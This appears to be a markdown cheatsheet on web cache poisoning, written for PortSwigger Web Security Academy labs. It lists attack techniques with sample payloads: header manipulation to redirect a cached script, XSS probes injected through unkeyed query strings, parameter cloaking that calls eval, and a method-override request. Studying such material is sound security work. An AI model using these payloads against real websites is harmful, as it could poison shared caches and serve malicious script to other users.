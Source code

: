 ```yaml
---
title: Cache poisoning
description: Web cache poisoning cheatsheet
---
```


# Web cache poisoning

## Definition

**Web cache poisoning** is a type of cyber attack that targets the cache of a web server or web browser. The goal of this attack is to **inject malicious or unauthorized content into the cache**, so that it is served to users who request the same content in the future. This can be used to spread malware or to trick users into visiting malicious websites, for example.

## Cheatsheet

- Cache Host header to control $URL/resources/...
- Cache cookie to control pages content (language=fr)
- `GET /resources/js/tracking.js` and `X-Forwarded-Host` to redirect to my exploit server
- `Vary` header provides list of cache key header
    - If User-Agent in Vary, try to capture it (ex: load image to your website) or BF UA
- Unkeyed query string : `GET /?'><script>alert(1)</script>` or param `/?utm_content='%3e%3cscript%3ealert(1)%3c%2fscript%3e`
- Parameter cloacking `/js/geolocate.js?callback=setCountryCookie&utm_content=toto;callback=eval(alert(1))%3bconsole.log` will serve `/js/geolocate.js?utm_content=toto&callback=eval(alert(1))%3bconsole.log`. You need a param that will be removed from the cache
- GET request with body

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1
Host: xxx.web-security-academy.net
X-HTTP-Method-Override: POST
[...]

callback=alert(1);console.log
```

- URL normalization : caching `/notfound<script>alert(1)</script>` into `/notfound%3Cscript%3Ealert(1)%3C/script%3E`

## References

- [PortSwigger - Web Cache Poisoning](https://portswigger.net/web-security/web-cache-poisoning)